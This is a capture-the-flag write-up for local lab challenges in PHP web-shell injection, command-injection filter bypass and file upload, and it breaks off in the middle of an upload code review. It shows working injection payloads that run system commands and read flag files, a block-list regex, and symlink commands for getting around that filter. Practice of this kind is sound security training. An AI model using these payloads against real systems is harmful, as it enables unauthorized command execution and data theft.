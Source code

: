 ### 3. Web Shell
#### 3.1 沒有處理輸入，嘗試 ＄{} 執行 PHP
http://localhost:8082/?format=${phpinfo()}
![image](https://hackmd.io/_uploads/H19qUQOAR.png)
> 成功 ？！！

#### 3.2 執行 system() Execute Code
http://localhost:8082/?format=${system(ls)}
![image](https://hackmd.io/_uploads/BJOUw7_CC.png)
> Router.php assets controllers index.php models static views

#### 3.3 Find Flag
http://localhost:8082/?format=${system($_GET[cmd])}&cmd=cat%20/fl*
![image](https://hackmd.io/_uploads/H1kucXdA0.png)


## Get FLAG
**FLAG: CHW{7hi5_1s_f4k3_fl4g}**

# cmdi
![image](https://hackmd.io/_uploads/r1Ecs7_0C.png)
> Block List: /[\$;\n`\.&|#]|flag/

## cmdi Solution
### 1. Attempt 
http://localhost:8083/?file=/tmp
![image](https://hackmd.io/_uploads/rkeQ2XdRC.png)
> 隨機 tmp file

```
ln -s /flag /tmp/symlink_to_flag
ln -s /readflag.c /tmp/symlink
```


## Get FLAG

# file_upload
![image](https://hackmd.io/_uploads/BJQMEQnCR.png)

## file_upload Solution
### 1. Code Review
```php=
<?php
    session_start();

    if (!isset($_SESSION['uid'])) {
        $new_uid = uniqid();
        $_SESSION['uid'] = $new_uid;
        # 新增 uniqid() 存入 Session
    }

    $uid = $_SESSION['uid'];

    if(isset($_FILES['file'])){
```